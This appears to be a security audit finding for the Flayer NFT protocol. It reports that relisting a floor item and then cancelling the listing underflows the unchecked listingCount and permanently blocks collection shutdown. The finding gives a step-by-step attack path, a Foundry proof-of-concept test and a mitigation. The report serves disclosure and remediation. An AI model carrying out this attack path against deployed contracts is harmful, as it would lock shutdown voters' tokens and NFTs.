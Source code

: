 Obedient Flaxen Peacock

High

# Attacker can relist a floor item and cancel the listing to underflow `listingCount` and block collection shutdown execution

### Summary

Relisting a floor item does not increase the `listingCount` but canceling the listing decreases the `listingCount`. Since decrementing the `listingCount` is unchecked, it will underflow when `listingCount` is at 0. An attacker can use this behavior to block collection shutdown execution.

### Root Cause

When relisting a floor item, the `listingCount` is not incremented.

ref: [Listings::relist()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625-L672)

Relisting a floor item is expected behavior.

ref: [test_CanRelistFloorItemAsLiquidListing](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/test/Listings.t.sol#L2086-L2188)

Listing actions like [cancel()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L462-L464), [fill()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L515), and [reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L725) do an unchecked decrement on `listingCount`. 

```solidity
unchecked { listingCount[_collection] -= 1; }
```

The combination of creating a listing without incrementing `listingCount` and the unchecked decrementing of `listingCount` can cause an underflow. 

### Internal pre-conditions

1. Total supply of target collection token is below `10e18 * 10 ** denomination`. It is ready for shutdown.

### External pre-conditions

None

### Attack Path

1. Anyone [starts](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L135-L157) the shutdown of a collection. 
2. Attacker gets an NFT of the target collection.
3. Attacker calls [Locker::deposit()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L144-L166) to lock the NFT for 1e18 collection tokens. 
4. Attacker relists an NFT from the target collection. This can be the NFT they deposited (they will need to use a different address) or another NFT that's already in the Locker. 
5. Attacker [cancels](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L463) the listing to decrement the `listingCount`. 
6. Attacker repeats the process of relisting and canceling until `listingCount` has underflowed.
7. CollectionShutdown can never [execute()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L241) because it always [has listings](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L500-L502) due to the underflow.
8. All shutdown voters permanently lose their NFTs and collection tokens. [Reclaiming their vote](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L360) will always fail since `execute()` always reverts and can never [set `params.canExecute`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L273) back to false.

Well-intentioned users can trigger the issue just by relisting a floor item.

### Impact

The shutdown voters permanently lose their collection tokens and NFTs. The attacker neither gains nor loses anything.

### PoC

Add the following test to `test/Listings.t.sol::ListingsTest`. Comment out the total supply check in [`CollectionShutdown:start()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/utils/CollectionShutdown.sol#L147) before running the test. This is for easier test setup and is not relevant to the issue.

```diff
-        if (totalSupply > MAX_SHUTDOWN_TOKENS * 10 ** params.collectionToken.denomination()) revert TooManyItems();
+        // if (totalSupply > MAX_SHUTDOWN_TOKENS * 10 ** params.collectionToken.denomination()) revert TooManyItems();
```

The test can be run with:

```bash
$ forge test --match-test test_ListingCountUnderflow
```

<details>
<summary>Test POC</summary>

```solidity
    function test_ListingCountUnderflow(address _lister, address payable _relister, uint _tokenId, uint16 _floorMultiple) public {
        _assumeValidTokenId(_tokenId);
        _assumeValidAddress(_lister);
        _assumeValidAddress(_relister);
        vm.assume(_lister != _relister);
        _assumeRealisticFloorMultiple(_floorMultiple);

        // Provide a token into the core Locker to create a Floor item
        erc721a.mint(_lister, _tokenId);

        vm.startPrank(_lister);
        erc721a.approve(address(locker), _tokenId);

        uint[] memory tokenIds = new uint[](1);
        tokenIds[0] = _tokenId;

        // Rather than creating a listing, we will deposit it as a floor token
        locker.deposit(address(erc721a), tokenIds);
        vm.stopPrank();

        // Confirm that our listing user has received the underlying ERC20. From the deposit this will be
        // a straight 1:1 swap.
        ICollectionToken token = locker.collectionToken(address(erc721a));
        assertEq(token.balanceOf(_lister), 1 ether);

        uint256 listingCountBefore = listings.listingCount(address(erc721a));

        vm.startPrank(_relister);

        // Provide our filler with sufficient, approved ERC20 tokens to make the relist
        uint startBalance = 1 ether;
        deal(address(token), _relister, startBalance);
        token.approve(address(listings), startBalance);

        // Relist our floor item into one of various collections
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IListings.Listing({
                    owner: _relister,
                    created: uint40(block.timestamp),
                    duration: listings.MIN_LIQUID_DURATION(),
                    floorMultiple: _floorMultiple
                })
            }),
            _payTaxWithEscrow: false
        });

        vm.stopPrank();

        token.approve(address(collectionShutdown), type(uint256).max);

        // Start shutting down the collection
        collectionShutdown.start(address(erc721a));
        ICollectionShutdown.CollectionShutdownParams memory params = collectionShutdown.collectionParams(address(erc721a));

        // Cancel the relisted listing
        vm.prank(_relister);
        listings.cancelListings(address(erc721a), _tokenIdToArray(_tokenId), false);

        // The Listing Count has underflowed is now maxUint256
        assertEq(listings.listingCount(address(erc721a)), type(uint256).max);

        // Collection Shutdown can never execute because of the _hasListings() check
        vm.expectRevert(ICollectionShutdown.ListingsExist.selector);
        collectionShutdown.execute(address(erc721a), _tokenIdToArray(_tokenId));
    }
```
</details>

### Mitigation

Consider adding logic to [`relist()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L625) to increment `listingCount` when relisting a floor item.